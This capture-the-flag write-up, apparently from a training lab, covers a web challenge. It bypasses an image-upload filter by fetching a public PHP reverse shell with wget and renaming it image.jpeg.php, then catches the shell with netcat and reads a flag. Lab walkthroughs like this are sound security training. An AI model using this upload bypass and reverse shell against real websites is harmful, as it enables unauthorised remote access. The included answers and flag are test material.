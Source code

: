 ```yaml
---
description: Web Exploitation
---
```


# The Elf Strikes Back!

## Web Exploitation

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

Open the site

![](../.gitbook/assets/image%20%282%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2811%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%287%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2810%29.png)

![](../.gitbook/assets/image%20%2814%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%289%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%284%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%288%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

